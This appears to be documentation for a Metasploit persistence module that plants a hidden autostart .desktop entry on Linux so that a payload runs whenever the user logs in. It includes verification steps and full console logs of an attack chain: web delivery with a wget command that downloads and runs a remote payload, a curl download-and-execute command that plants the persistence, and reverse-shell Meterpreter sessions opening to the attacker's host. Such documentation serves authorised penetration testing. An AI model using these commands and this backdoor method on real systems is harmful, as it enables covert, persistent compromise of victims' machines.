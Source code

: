 ## Description

This module will create an autostart `.desktop` entry to execute a payload.
The payload will be executed when the users logs in.

Verified on Ubuntu 22.04 desktop with Gnome, and 18.04.3.
The following payloads were used in testing:
- `cmd/unix/reverse_netcat`
- `linux/x64/meterpreter/reverse_tcp`
- `cmd/linux/http/x64/meterpreter/reverse_tcp`

## Verification Steps

1. Exploit a box
2. `use exploit/linux/persistence/autostart`
3. `set SESSION <id>`
4. `exploit`

When the victim logs in, your payload will be executed!

## Options

**BACKDOOR_NAME**

Name of autostart entry. Defaults to a randomly generated name

**PAYLOAD_NAME**

Name of the payload file to write. Defaults to a randomly generated name

**USER**

User to target, or current user if blank

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l

[*] Server started.
[*] Run the following command on the target machine:
wget -qO FWdHRs3A --no-check-certificate http://111.111.1.111:8181/l; chmod +x FWdHRs3A; ./FWdHRs3A& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:57884) at 2025-02-06 17:03:03 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/autostart 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/autostart) > exploit
[*] Command to run on remote host: curl -so ./xcsqfBQnCfcm http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./xcsqfBQnCfcm;./xcsqfBQnCfcm&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/autostart) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Xorg is installed, possible desktop install.
[!] Payloads in /tmp will only last until reboot, you may want to choose elsewhere.
[*] Making sure the autostart directory exists
[*] Uploading autostart file /home/ubuntu/.config/autostart/bHOXeW.desktop
[+] Backdoor will run on next login by ubuntu
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.0326/ubuntu18desktop.local_20250206.0326.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
```

Login via gui

```
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:44316) at 2025-02-06 17:03:50 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/autostart) > 
```
